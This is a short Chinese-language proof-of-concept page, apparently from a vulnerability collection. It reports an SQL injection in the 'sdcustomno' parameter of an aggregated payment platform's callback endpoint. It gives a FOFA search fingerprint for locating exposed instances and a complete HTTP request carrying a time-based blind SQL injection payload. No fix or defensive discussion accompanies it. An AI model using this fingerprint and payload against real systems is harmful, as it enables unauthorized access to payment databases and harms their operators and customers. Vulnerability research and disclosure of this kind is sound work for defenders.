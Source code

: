 # 聚合支付平台接口sdcustomno存在SQL注入漏洞

聚合支付平台接口sdcustomno存在SQL注入漏洞

## fofa

```javascript
"/Public/theme/view4/css/style.css"
```

## poc

```javascript
GET /pay_UPALIWAP_callbackurl?sdcustomno=*%27)%20AND%20(SELECT%202655%20FROM%20(SELECT(SLEEP(5)))DNPm)%20AND%20(%27RWpf%27=%27RWpf HTTP/1.1
Host: 127.0.0.1                                                                                          
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7
Cache-Control: max-age=0
Connection: keep-alive
```

![image-20241107115047722](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202411071150773.png)
